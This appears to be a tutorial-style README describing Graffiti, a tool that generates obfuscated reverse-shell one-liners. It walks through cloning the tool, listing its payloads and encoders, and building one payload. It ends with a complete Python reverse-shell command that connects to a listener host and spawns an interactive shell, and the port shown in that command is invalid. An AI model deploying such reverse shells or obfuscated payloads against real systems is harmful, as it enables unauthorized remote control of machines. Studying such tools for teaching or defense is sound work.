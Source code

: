 # Study of one of the hacking SUBJECT 
<p align="center">
  <img src="https://user-images.githubusercontent.com/14183473/49157062-8a351500-f2e4-11e8-80cd-00acd809171e.png">
</p>

# What GRAFFITI is?
Graffiti is a tool that uses a number of different encoding techniques to create obfuscated payloads.

### It offers an array of one-liners and shells in languages such as:

 - Python
 - Perl
 - PHP
 - Powershell
 - Bash

Graffiti will also accept a language that is not currently on the list and store the oneliner into a database.

### Payloads can be encoded using the following techniques:

 - Base64
 - Hex
 - AES256
 - ...



### Features

 - Option to run native OS commands
 - Multiple encoding techniques 
 - Terminal history
 - Ability to run external commands
 - Ability to securely wipe the history files
 - Ability to create your own payload files
 
# What is the mechanism how to do it?
First, we need to clone into the Github for [Graffiti](https://github.com/Ekultek/Graffiti) by using `git` command

![e1800918](pic/1.PNG)

Then get into that directory and list everything to compare what is missing or not by using `ls` command

![e1800918](pic/2.PNG)

Graffiti comes with a builtin terminal, when you pass no flags to the program it will drop into the terminal. The terminal has history, the ability to run external commands, and it's own internal commands. In order to get help, type `graffiti -h`:

![e1800918](pic/3.PNG)

# Now, let's the running begins

The easy way to run Graffiti is in normal command-line mode. All we have to do is pass the arguments after the command, just like you would with any other tool or script. For example, we can list all available payloads with the `-l` command

![e1800918](pic/4.PNG)

We can see that there are options segregated between Windows and Linux for [Netcat shells](https://null-byte.wonderhowto.com/how-to/hack-like-pro-use-netcat-swiss-army-knife-hacking-tools-0148657/), [Python shells](https://wiki.python.org/moin/PythonShells) and several others.

Graffiti comes complete with a database that will insert each encoded payload into it, in order to allow end users to view already created payloads for future use. To see the available encoders for the payloads, type `-Vc`

![e1800918](pic/5.PNG)

The `-p` command is the staff of life of Graffiti — use it to specify a payload, followed by `-c` to specify the encoding technique, and finally `-lH` and `-lP` to set the listening address and port, respectively. Here's a raw-format Python reverse shell which means no encoding:

```bash

root@e1800918:~/cyebr/Graffiti# graffiti -p /linux/python/socket_reverse.json -c raw -lH 18.0.9.18 -lP 1800918
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("18.0.9.18",1800918));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```
